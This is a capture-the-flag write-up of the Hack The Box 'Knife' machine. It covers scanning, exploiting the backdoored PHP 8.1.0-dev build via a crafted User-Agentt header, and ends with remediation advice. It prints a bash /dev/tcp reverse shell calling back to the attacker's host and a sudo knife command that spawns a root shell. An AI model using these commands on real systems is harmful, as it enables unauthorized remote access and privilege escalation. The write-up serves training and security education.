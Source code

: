 ```yaml
---
title:  Hack The Box - Knife writeup
date: 2021-08-30 16:09:00 +0200
categories: [ Hack The Box, Machines ] 
tags: [known-exploit, php] 
dirImg: /assets/img/HackTheBox/Knife
image:
  src: /assets/img/HackTheBox/Knife/icon.webp
  alt: Knife image
toc: false  
---
```



In this post we explore the Knife machine hosted on the HackTheBox website. We first scan the machine to enumerate the open ports and the respective running services.

### Analyze and Discovery

We start with an `nmap` enumeration. The `-sC` flag enables the usage of the default nmap scripts and the `-sV` flag enables the service and version discovery.

```
> nmap -sC -sV -oN nmap-initial 10.10.10.242

Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 09:49 CEST
Nmap scan report for 10.10.10.242
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds
```

Two ports results to be open: port 22 for the ssh service and 80 which hosts an Apache web service.

Visiting the webserver we land on the following page:

>![]({{ page.dirImg }}/homepage.png){: .shadow}


The attack surface is very small as there aren't any input fields nor clickable links. The tabs on the top right of the page are not actually implemented.  

We can easily figure out that the website's backend language is PHP by noticing that the landing page is called `index.php`. This information may be useful in the future to tailor our enumeration/attacks.

We can gather further information on the resources hosted on the webserver by enumerating files or directories served on port 80. For this purpose, we can use `gobuster` and perform a dictionary-based brute force enumeration. 
As we know that the web server is written in php, it may contain files ending with `.php`. It may be useful to tell `gobuster` to also append the `.php` extension to the dictionary entries. The `-x` flag enables such feature.
The full `gobuster` command is 
```
gobuster dir -u http://10.10.10.242 -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50 -o gobuster-port80.txt
```

However the directory enumeration didn't return any valuable results. 

We can still examine the requests and responses generated when visiting the `index.php` page and see whether we can spot any anomalies. 

We open the Firefox developer tools and navigate to the `Network` tab. Here we can see the request sent by the browser to the server to request the `index.php` page and its respective response.

>![]({{ page.dirImg }}/20210605-095915.png){: .shadow}

The `X-Powered-By` HTTP response header leaks the `PHP` version in use

>![]({{ page.dirImg }}/20210605-100046.png){: .shadow}


Now that we know the specific version of php used, namely `php 8.1.0-dev`, we can google for known vulnerabilities.  
Our search produced a very interesting result:

>![]({{ page.dirImg }}/20210605-100432.png){: .shadow}

It confirms that the current version is vulnerable and contains a backdoor that may cause remote code execution. What we need to do is finding this backdoor and exploit it.   

### Insight into the `PHP` backdoor

In exploitDB we can find the reference to the malicious commit that introduced the backdoor in the PHP code base. ([ExploitDB](https://www.exploit-db.com/exploits/49933)).

The backdoor is contained in the following code snippet:

>![]({{ page.dirImg }}/20210605-101856.png){: .shadow}

As we can easily spot, the content of the `HTTP_USER_AGENTT` is scanned for the `zerodium` string. If the string is found, then the content after the first 8 bytes is evaluated.

So, if we build our `HTTP_USER_AGENTT` such that it starts with `zerodium` (8 bytes) than we will be able to execute the remaining bytes.

### Attacking and Tinkering

We know that the payload after the `zerodium` string will be executed in the server. Therefore we can embed a reverse shell to gain a shell in the remote machine.  
The server machine is running Ubuntu (as we can see from the `nmap` output), so we can use a simple tcp reverse shell that starts a connection to our local machine: `bash -i >& /dev/tcp/10.10.14.19/9001 0>&1`.  
(10.10.14.19 is the ip address of our local machine in the HTB network).


Indeed, we need to setup a tcp listener in our local machine to listen on port 9001 for the incoming connection. It can be done using netcat: `nc -lnvp 9001`.

The listener is ready, we can now trigger the backdoor.  
We embed our reverse shell into the `User-Agentt` header using BurpSuite.

>![]({{ page.dirImg }}/20210605-102948.png){: .shadow}

And we get the callback

>![]({{ page.dirImg }}/20210605-102850.png){: .shadow}


> An alternative to BurpSuite is the `curl` linux command. However, it would not be a very pleasant experience as one needs to pay close attention on escaping quotes.

We now have a shell as the **james** user. We can get the user flag by printing the `/home/james/user.txt` file.

#### Privilege Escalation

We can scan the machine for possible privilege escalation vectors.  

Before using any Linux enumeration scripts, we can try to see which commands the user **james** can execute as another user. It can be done using the `sudo -l` command.

>![]({{ page.dirImg }}/20210605-103224.png){: .shadow}

As we can see from the command's output, we can execute the `knife` binary as root without the need to provide a password. 

But what is knife?

>![]({{ page.dirImg }}/20210605-112124.png){: .shadow}

(More information on [Chef Documentation website](https://docs.chef.io/workstation/knife/) ) 

The documentation is indeed a useful resource to look at. It may be possible to find exploit vectors. 

As expected, going through the documentation highlighted an exploitable feature of the `knife` binary. It looks like we can execute arbitrary Ruby code:

>![]({{ page.dirImg }}/20210605-105525.png){: .shadow}

Therefore we run the binary as **root** and spawn a shell using Ruby code.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/bash"'
sudo knife exec -E 'exec "/bin/bash"'
$ whoami
root
```

We managed to get **root**, flag is in `/root/root.txt`

### Reflection on the security

In this section we highlight the security weaknesses that allowed us to get full control over the remote server. Moreover, we propose solutions to mitigate and patch such vulnerabilities

#### Security weaknesses and recommendations

- We managed to get a foothold in the target machine by exploiting an outdated version of PHP which contained a known backdoor. The vulnerability is extremely easy to exploit and allows an unauthenticated attacker to remotely gain access to the server's OS. Given the high impact and easiness of exploitation, the vulnerability can be classified as high risk and should be immediately patched.   
We advice to always keep the software up to date. Publicly facing web servers should have high priority and be updated daily as they are the first point of entry to the machine.

- The `X-Powered-By` leaks the PHP version in use, thus easily giving out extra information to the attacker. Such header should be immediately suppressed. Without the info about the PHP version the attacker would have had a harder time breaking into the machine. However security by obscurity is never a good solution and the problem should be fixed at the root (keep the software up to date).

- We managed to escalate our privileges by exploiting an over permissive rule in the `sudoers` file. Such rule allowed the `james` user to execute the `knife` binary as root without the need of a password. Such configuration together with the large variety of features exposed by the binary, easily allow an attacker to gain full control over the machine.
It is still unclear why the `sudoers` file contained such entry but it is definitely an over permissive rule which does not follow the minimality principle.  
It's highly likely that the system administrator lazily set up the `knife` sudo permissions without taking security into account.  
In case the **james** user is required to execute part of the `knife` features, we advice to configure the `sudoers` file in a more granular way, giving the users access to the required features only, and only after an accurate analysis of such features.  

